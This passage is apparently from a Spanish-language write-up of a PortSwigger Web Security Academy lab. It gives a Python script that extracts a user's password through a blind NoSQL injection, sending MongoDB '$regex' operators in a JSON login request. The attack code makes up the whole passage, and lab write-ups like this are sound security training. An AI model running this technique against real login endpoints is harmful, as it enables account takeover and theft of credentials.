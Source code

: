 Como `alternativa` al `Cluster bomb` podemos usar este `script` en `python`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, sys, string
import json

def def_handler(sig, frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url = "https://0a6600d8049f2b72804ed06900ef0098.web-security-academy.net/login"

characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(0, 50):
            for character in characters:
                json = {
                    "username": "carlos",
                    "password": {"$regex": f"^.{{{position}}}{character}.*"}
                }

                headers = {
                    "Content-Type": "application/json"
                }

                p1.status(json['password'])

                r = requests.post(url, headers=headers, json=json)

                if "Account locked: please reset your password" in r.text:  
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```
